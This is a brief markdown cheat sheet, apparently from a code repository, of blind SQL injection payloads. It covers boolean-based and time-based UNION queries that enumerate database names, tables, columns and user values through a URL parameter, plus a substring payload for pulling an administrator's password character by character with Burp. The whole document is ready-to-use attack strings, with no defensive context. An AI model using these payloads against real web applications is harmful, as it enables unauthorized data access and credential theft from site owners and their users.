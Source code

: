 ## Blind SQLi (Boolean) ##

Change param in url. 

PARAM VALUE' union select 1,2,3;--

PARAM VALUE' union select 1,2,3 where database() like 'a%';-- (Will help get DB)

PARAM VALUE' union select 1,2,3 from information_schema.tables where table_schema = 'DB NAME' and table_name like 'a%';-- (Will help get tables)

PARAM VALUE' union select 1,2,3 from information_schema.columns where table_schema ='DB NAME' and table_name='TABLE NAME' and column_name like 'a%'; (Will help get columns)

PARAM VALUE' union select 1,2,3 from users where username like 'a% Will help get values from table and columns)

Simple Blind Query to pull administrator password. Substring is comparing password and pulling out the 7th character and starting at posistion 1.
' AND (SELECT SUBSTRING(password,7,1) FROM users WHERE username='administrator')='$Burp Marker$;

## Blind SQLi (Time) ##

Change param in url.

### TEST for SQLI Time Based ###

PARAM VALUE' union select SLEEP(5),2;--

PARAM VALUE' union select SLEEP(5),2 where database() like 'a%';-- (Will help get DB)

PARAM VALUE' union select SLEEP(5),2 from information_schema.tables where table_schema = 'DB NAME' and table_name like 'a%';-- (Will help get tables)

PARAM VALUE' union select SLEEP(5),2 from information_schema.columns where table_schema ='DB NAME' and table_name='TABLE NAME' and column_name like 'a%'; (Will help get columns)

PARAM VALUE' union select SLEEP(5),2 from users where username like 'a% Will help get values from table and columns)
